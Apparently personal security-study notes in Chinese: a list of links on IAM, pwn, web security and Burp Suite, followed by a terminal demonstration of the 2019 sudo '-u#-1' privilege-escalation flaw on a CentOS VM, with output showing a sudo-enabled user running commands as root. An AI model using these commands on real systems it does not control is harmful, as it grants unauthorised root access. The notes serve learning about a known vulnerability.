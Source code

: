 初识身份管理与访问控制IAM - PINGIDM的文章 - 知乎 https://zhuanlan.zhihu.com/p/38385298

Linux下pwn从入门到放弃
https://paper.seebug.org/481/

用户chybeta的安全总结
- https://github.com/CHYbeta/Web-Security-Learning
- https://github.com/CHYbeta/Software-Security-Learning

Burp Suite 实战指南
https://legacy.gitbook.com/book/t0data/burpsuite/details

OpenID 和 OAuth 有什么区别？ - 知乎用户的回答 - 知乎 https://www.zhihu.com/question/19628327/answer/23291315

Linux sudo被曝提权漏洞，任意用户均能以root身份运行命令 https://www.ithome.com/0/450/420.htm
```sh
文中用的命令是 
`sudo -u#-1 id -u` 或 `sudo -u#4294967295 id -u`，
这俩没那么明显。我们来换命令实战下：
----------------------------------------------------------------------------------------------------
// 1.首先以root用户远程登陆一台CentOS 7.6的虚机。
// 2.切换到用户bjweixj，这个其实是IT一个同事的账号，有sudo权限。
[root@temptest ~]# su - bjweixj
Last login: Mon Jul 22 21:51:00 CDT 2019 from 9.186.90.168 on pts/0

// 3.直接分别执行`whoami`和`who am i`，结果符合预期。
[bjweixj@temptest ~]$ whoami
bjweixj
[bjweixj@temptest ~]$ who am i
root     pts/0        2019-10-15 12:26 (9.200.55.20)

// 4.演示这个漏洞的时刻到了。
//（第一个命令whoami本来应该显示当前用户的，对比一下上面，这里变成root了；第二个命令跟这个漏洞没关系，就是一起对比下）
[bjweixj@temptest ~]$ sudo -u#-1 whoami
root
[bjweixj@temptest ~]$ sudo -u#-1 who am i
root     pts/0        2019-10-15 12:26 (9.200.55.20)
// 4.1用文章里的第二个命令也可以生效。
[bjweixj@temptest ~]$ sudo -u#4294967295 whoami
root
[bjweixj@temptest ~]$ sudo -u#4294967295 who am i
root     pts/0        2019-10-15 12:26 (9.200.55.20)

// 5.但是如果用户本身没有sudo权限，这个漏洞也无法利用。
[test1@temptest root]$ sudo -u#-1 whoami

We trust you have received the usual lecture from the local System
Administrator. It usually boils down to these three things:

    #1) Respect the privacy of others.
    #2) Think before you type.
    #3) With great power comes great responsibility.

[sudo] password for test1: 
test1 is not in the sudoers file.  This incident will be reported.
```
